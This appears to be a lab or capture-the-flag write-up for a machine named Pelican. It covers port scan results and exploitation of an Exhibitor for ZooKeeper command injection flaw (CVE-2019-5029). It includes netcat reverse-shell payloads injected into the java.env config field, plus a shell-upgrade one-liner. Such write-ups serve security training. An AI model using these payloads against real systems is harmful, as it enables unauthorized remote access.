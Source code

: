 ```yaml
---
description: 11/28/2022
---
```


# Pelican (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.211.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-28T23:54:26
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-28T18:54:26-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
```

Enumerated UDP ports:

```
5353/udp  open          mdns            DNS-based service discovery
| dns-service-discovery: 
|   445/tcp smb
|     Address=192.168.211.98
|   Device Information
|_    Address=192.168.211.98
```

Notes:

* 445/Samba -- Anonymous login no access
* 631/CUPS 2.2
* 2181/zookeeper HTTP
* 8080/HTTP Server -- <mark style="color:yellow;">"Exhibitor" for ZooKeeper - v1.0</mark>
  * <mark style="color:yellow;">This seems very unique let's searchsploit it</mark>
  * <mark style="color:red;">Exhibitor Web UI 1.7.1 - Remote Code Execution -- 48654.txt</mark>

## Enumeration

### Port 8080 - HTTP (Jetty 1.0)

<mark style="color:yellow;">Searchsploit</mark>:&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">CVE-2019-5029</mark>

Version Enumeration:&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>v1.0 -- Confirming vulnerability to CVE-2019-5029</p></figcaption></figure>

## Exploitation

### <mark style="color:yellow;">Command Injection - CVE-2019-5029</mark>

48654.txt:

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

Exploitation/Obtaining Foothold

1. Navigate to Config
2. Select on next to Editing
3. Next to java.env script, add the following <mark style="color:yellow;">`$(/bin/nc -e /bin/sh 192.168.49.211 1337 &)`</mark>
4. Start nc listener on 1337
5. Select commit > all at once > ok
6. Wait a few seconds for the command to execute and you will get your shell!

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Fix shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs
